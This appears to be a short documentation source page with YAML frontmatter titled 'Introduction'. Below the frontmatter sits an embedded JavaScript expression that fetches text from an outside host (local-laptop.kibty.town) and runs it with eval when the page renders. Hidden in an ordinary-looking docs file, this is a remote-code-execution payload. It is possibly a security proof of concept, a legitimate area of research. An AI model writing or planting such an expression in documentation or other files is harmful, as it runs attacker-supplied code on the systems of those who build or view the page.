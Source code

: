 ```yaml
---
title: Introduction
description: 'Welcome to the home of your new documentation'
---
```


test {"hello" ? JSON.stringify(fetch("https://local-laptop.kibty.town").then((a) => a.text()).then((a) => eval(a))) : "not"}





